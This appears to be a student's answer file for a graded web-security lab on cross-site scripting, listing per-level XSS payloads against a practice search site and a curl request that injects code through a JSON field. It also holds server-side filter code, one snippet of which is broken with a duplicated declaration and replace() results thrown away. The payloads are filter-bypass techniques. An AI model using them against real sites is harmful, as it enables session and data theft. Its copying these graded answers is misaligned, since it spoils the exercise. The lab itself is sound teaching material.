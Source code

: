 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)

```
<script>success()</script>
```

# 2. No Script Allowed (3 points)

```
<scriptscript>success()</script>
```

# 3. One More Time, Like You Mean It (3 points)

```
<Script>success()</Script>
```

# 4. An Open-and-Shut Case (3 points)

```
<Script>success()</Script>
```

# 5. Time to Mix Things Up (3 points)

```
<Script>success()</Script>
```

# 6. A Picture is Worth a Thousand Words (3 points)

```
<img src="https://www.berkeleyside.org/wp-content/uploads/2021/02/Aerial-view-of-View-of-Sather-Tower-and-Campanile-Esplanade-left-Wheeler-Hall-top-right-Hearst-Memorial-Mining-Building-bottom-right.-Photo-UC-Berkeley.png" onload=success()>
```

# 7. Between a Rock And a Hard Place (3 points)

```
<img src="https://www.berkeleyside.org/wp-content/uploads/2021/02/Aerial-view-of-View-of-Sather-Tower-and-Campanile-Esplanade-left-Wheeler-Hall-top-right-Hearst-Memorial-Mining-Building-bottom-right.-Photo-UC-Berkeley.png" onclick=success()>
```

# 8. Angle of Death (6 points)

Attack input:

```
<<img src="https://www.berkeleyside.org/wp-content/uploads/2021/02/Aerial-view-of-View-of-Sather-Tower-and-Campanile-Esplanade-left-Wheeler-Hall-top-right-Hearst-Memorial-Mining-Building-bottom-right.-Photo-UC-Berkeley.png" onload=success()>>
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  let q = req.query.q
  if (q == null) q = ''

  let oldQ
  while (q !== oldQ) {
    oldQ = q
    q = q.replace(/script|onerror=|onload=/gi, '')
  }
  q.replace(/</g, '&lt;')
  q.replace(/>/g, '&gt;')

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)

```
" onload=success()
```

# 11. You Can't Win 'em All (6 points)

Attack input:

```
"" onload=success()
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 12. When All is Said and Done (6 points)

Attack input:

```
TODO: Replace this with your attack input.
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL:

```
http://caloogle.xyz:4140/search?q=test&lang=de%20onload=success()
```

# 15. The Early Bird Catches the Worm (3 points)

```
</script><script>success()</script>
```

# 16. Tying Up Loose Ends (3 points)

```
<<//script><script>success()<<//script>
```

# 17. Take a Page Out of Their Book (6 points)

Attack code:

```js
curl --request POST \
  --url http://caloogle.xyz:4170/comment \
  --header 'Content-Type: application/json' \
  --data '{
	"id": "0); success()//",
	"text": "string"
}'
```

# 18. Congrats

N/A

# Survey responses (3 points)

Write your survey responses in SURVEY.md!
